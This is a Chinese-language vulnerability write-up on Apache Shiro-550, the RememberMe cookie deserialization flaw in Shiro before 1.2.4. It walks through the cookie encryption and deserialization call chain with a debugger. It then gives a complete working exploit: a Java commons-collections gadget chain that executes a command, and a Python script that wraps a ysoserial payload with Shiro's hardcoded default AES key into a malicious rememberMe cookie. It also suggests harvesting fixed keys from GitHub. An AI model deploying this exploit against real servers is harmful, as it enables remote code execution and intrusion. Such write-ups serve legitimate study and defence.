Apache shiro是一个Java安全框架，执行身份验证、授权、密码和会话管理。2016年，曝光了其1.2.4版本以前存在反序列化漏洞。该漏洞被称为shiro-550。
漏洞信息 影响版本
组件 RememberMe
漏洞原理 shiro默认的设置暴露了web应用的反序列化攻击。特别是考虑到最近使用的commons-collections 的利用。
默认情况下，Apache Shiro框架使用CookieRememberMeManager 。它序列化、加密以及编码用户identity，以便之后的检索。因此，当它接收到来自未认证用户的请求时，它会寻找它们记住的identity，通过以下步骤:
检索rememberMe cookie的值
Base64解码
使用AES解密
反序列化(ObjectInputStream)
然而，默认加密的key是硬编码的，意味着任何可以获得源代码的人都知道默认加密密钥的值。因此，攻击者可以创建一个恶意的对象，序列化(在调用序列化时未进行任何的过滤)、编码，然后将其作为cookie发送。Shiro将解码并反序列化它，意味着现在恶意的对象已经存活在服务器上了。
反序列化分析 cookie生成过程 对于利用方式的分析，首先跟进一下Cookie的生成存储过程。Shiro框架的特征是登录页面的cookie中存在rememberMe的内容值。在登录时勾选上remmemberMe框。
首先在org.apache.shiro.mgt.AbstractRememberMeManager#onSuccessfulLogin处下断点。

首先会进入forgetIndentity，在这个函数里将在response添加一些cookie信息。接着，由于设置了token.setRememberMe(true)。将会进入rememberIdentity(subject,token,info)。

首先获得info的principals，然后进入rememberIndentity(subject,principals)。跟进它

首先调用convertPrincipalsToBytes, 跟进它。它首先会序列化principals，然后，会用CBC模式进行分组加密。

然后调用rememberSerializedIdentity函数。跟进这个函数，可以看到它首先将序列化加密后的principals进行base64加密，然后存入cookie中。整个过程和我们了解到的一样，先序列化 ，然后进行AES加密 ，最后进行Base64加密 。
cookie的反序列化过程 首先来看看整个的调用链
1 2 3 4 5 DefaultSecurityManager.createSubject() ->DefaultSecurityManager.resolvePrincipals() ->DefaultSecurityManager.getRememberedIdentity() ->AbstractRememberMeManager.getRememberedPrincipals() ->
前面了解到了cookie生成的整个过程，接下来看看它的反序列化过程。选择了在org.apache.shiro.mgt.AbstractRememberMeManager#decrypt这个位置下断点。其调用链如下所示

因为是从SecurityManager开始，然后开始进行相关的身份校验。往上走一步，定位到getRememberedPrincipals函数。

它首先会调用getRememberedSerializedIdentity函数，跟进它。

它会获取到http请求中的cookie值，然后将其进行base64解码并返回解码后的值。
然后跟进convertBytesToPrincipals函数。
它会先将其进行解密然后进行反序列化。首先decrypt函数会讲其进行解密。然后调用deserialize函数来处理解密后的内容。

跟进它。

继续跟进this.getSerializer().deserialize函数
这里进入到了DefaultSerializer.deserialize函数，这个函数里看到了熟悉的readObject函数。

到这里整个反序列化过程的分析就结束了。接下来看看如何利用吧！
漏洞利用分析 在大多数直接利用的版本中，发现shiro自带的commons-collections的版本是3.2.1，从前面针对commons-collections的总结 可以知道，CommonsCollections1，3，5，6，7，9，10都可以利用。
然而在实际利用时，会发现无法直接利用shiro自带的commons-collections:3.2.1。从@orange和@zsx文章中，可以得知。Shiro resovleClass使用的是ClassLoader.loadClass()而非Class.forName()，ClassLoader.loadClass不支持装载数组类型的class 。
让我们来分析分析这一过程。在前面分析到deserialize函数时，会发现

在第49行使用的是ClassResolvingObjectInputStream而不是传统的ObjectInputStream。跟进它，

可以看到它重写了ObjectInputStream的resolveClass函数。与下面这个传统的resolveClass相比，它使用的是ClassUtils.forName()。

跟进ClassUtils.forName()函数。

可以看到，它使用的是线程上下文加载器，它获取到的当前加载器是ParallelWebappClassLoader，其loadClass方法是继承自父类WebappClassLoader。会按照以下方式进行加载。

根据流程，ParallelWebappClassLoader会先寻找内部缓存，若找不到则交给URLClassLoader。在对于path为/Lorg/apache/commons/collections/Transformer;.class的情况下，是找不到的。所以，导致ClassNotFound。
因此，在利用链中不能包含数组，即在之前分析的命令执行点，不能使用ChainedTransformer这个类。因为这个类的成员变量是一个数组。而之前分析的CommonsCollections利用链中，有提到利用InvokerTransformer的transform方法来调用newTransformer。之前的介绍中有利用LazyMap.get()来触发transform。wh1t3p1g 也介绍了这种方式，结合了CommonsCollections5，6，9利用链，所以在这里就不再赘述了。直接来看看整个利用链
1 2 3 4 5 6 7 HashSet.readObject() ->HashMap.put() ->HashMap.hash() ->TiedMapEntry.hashCode() ->TiedMapEntry.getValue() ->LazyMap.get() ->InvokerTransformer.transform()
完整的demo如下:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 import com.sun.org.apache.xalan.internal.xsltc.DOM;import com.sun.org.apache.xalan.internal.xsltc.TransletException;import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;import com.sun.org.apache.xml.internal.serializer.SerializationHandler;import javassist.ClassClassPath;import javassist.ClassPool;import javassist.CtClass;import org.apache.commons.collections.functors.*;import org.apache.commons.collections.keyvalue.TiedMapEntry;import org.apache.commons.collections.map.LazyMap;import java.io.*;import java.lang.reflect.*;import java.util.HashMap;import java.util.HashSet;import java.util.Map;public class test public static class StubTransletPayload extends AbstractTranslet implements Serializable private static final long serialVersionUID = -5971610431559700674L ; public void transform (DOM document, SerializationHandler[] handlers) throws TransletException public void transform (DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException } public static class Foo implements Serializable private static final long serialVersionUID = 8207363842866235160L ; } public static void main (String[] args) throws Exception String command = "/Applications/Calculator.app/Contents/MacOS/Calculator" ; String cmd = "java.lang.Runtime.getRuntime().exec(\"" + command.replaceAll("\\\\" ,"\\\\\\\\" ).replaceAll("\"" , "\\\"" ) + "\");" ; Object templates = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl" ).newInstance(); ClassPool pool = ClassPool.getDefault(); pool.insertClassPath(new ClassClassPath(StubTransletPayload.class )) ; pool.insertClassPath(new ClassClassPath(AbstractTranslet.class )) ; CtClass clazz = pool.get(StubTransletPayload.class .getName ()) ; clazz.makeClassInitializer().insertAfter(cmd); CtClass superC = pool.get(AbstractTranslet.class .getName ()) ; clazz.setSuperclass(superC); byte [] classBytes = clazz.toBytecode(); Field field = templates.getClass().getDeclaredField("_bytecodes" ); field.setAccessible(true ); field.set(templates,new byte [][]{classBytes,classFiles.classAsBytes(Foo.class )}) ; Field field2 = templates.getClass().getDeclaredField("_name" ); field2.setAccessible(true ); field2.set(templates,"ananaskr" ); Field field3 = templates.getClass().getDeclaredField("_tfactory" ); field3.setAccessible(true ); field3.set(templates, TransformerFactoryImpl.class .newInstance ()) ; InvokerTransformer transformer = new InvokerTransformer("toString" ,new Class[0 ],new Object[0 ]); Map innermap = new HashMap(); Map lazymap = LazyMap.decorate(innermap,transformer); TiedMapEntry entry = new TiedMapEntry(lazymap,templates); HashSet map = new HashSet(1 ); map.add("foo" ); Field f = null ; try { f = HashSet.class.getDeclaredField("map"); }catch (NoSuchFieldException e){ f = HashSet.class.getDeclaredField("backingMap"); } f.setAccessible(true ); HashMap innimpl = (HashMap) f.get(map); Field f2 = null ; try { f2 = HashMap.class.getDeclaredField("table"); }catch (NoSuchFieldException e){ f2 = HashMap.class.getDeclaredField("elementData"); } f2.setAccessible(true ); Object[] array = new Object[0 ]; array = (Object[]) f2.get(innimpl); Object node = array[0 ]; if (node == null ){ node = array[1 ]; } Field keyField = null ; try { keyField = node.getClass().getDeclaredField("key" ); }catch (Exception e){ keyField = Class.forName("java.util.MapEntry" ).getDeclaredField("key" ); } keyField.setAccessible(true ); keyField.set(node, entry); Field field0 = transformer.getClass().getDeclaredField("iMethodName" ); field0.setAccessible(true ); field0.set(transformer,"newTransformer" ); ByteArrayOutputStream baos = new ByteArrayOutputStream(); ObjectOutputStream out = new ObjectOutputStream(baos); out.writeObject(map); out.flush(); out.close(); byte [] bytes = baos.toByteArray(); ByteArrayInputStream bais = new ByteArrayInputStream(bytes); ObjectInputStream in = new ObjectInputStream(bais); in.readObject(); in.close(); } }
将其产生的序列化后的数据，放入脚本中，生成cookie即可。脚本内容如下:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 import sysimport base64import uuidfrom random import Randomimport subprocessfrom Crypto.Cipher import AESdef encode_rememberme (command) : popen = subprocess.Popen(['java' ,'-jar' ,'ysoserial.jar' ,'CommonsCollections5' ,command],stdout=subprocess.PIPE) BS = AES.block_size pad = lambda s: s +((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode() key = "kPH+bIxk5D2deZiIxcaaaA==" mode = AES.MODE_CBC iv = uuid.uuid4().bytes encryptor = AES.new(base64.b64decode(key),mode,iv) file_body = pad(popen.stdout.read()) base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body)) return base64_ciphertext if __name__ == '__main__' : command = "open /Applications/Calculator.app" payload = encode_rememberme(command) with open("/Users/xxx/Desktop/payload.cookie" ,"w" ) as fpw: print("rememberMe={}" .format(payload.decode()),file=fpw)
修复 官方修复的方式是通过去掉硬编码的密钥，使其每次生成一个密钥来解决该问题。然而，一些开源系统会使用固定的编码，通过搜索引擎、github来收集密钥，或许可以对该漏洞进行成功利用。
参考